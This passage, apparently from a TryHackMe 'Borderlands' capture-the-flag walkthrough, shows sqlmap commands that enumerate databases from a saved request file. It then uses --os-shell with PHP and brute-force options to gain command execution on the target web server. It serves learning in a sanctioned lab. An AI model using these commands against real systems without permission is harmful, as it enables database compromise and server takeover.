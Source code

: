 Make sure you change the host IP address before saving it. After that, launch the sqlmap with the following command.

```
sqlmap -r r.txt --dbs --batch
```

![sqlmap](/assets/images/THM/2020-08-13-borderlands/16.png)

If you are able to get a list of SQL tables, you are good to go. Or else, check the r.txt file for any misconfiguration. As for the next step, we are going to create a SQL upload page.

```
sqlmap -r r.txt -D myfirstwebsite --os-shell
```

![sqlmap more](/assets/images/THM/2020-08-13-borderlands/17.png)

Select PHP (option 4), 'no' option and then brute-force (option 4).

![sqlmap more and more](/assets/images/THM/2020-08-13-borderlands/18.png)
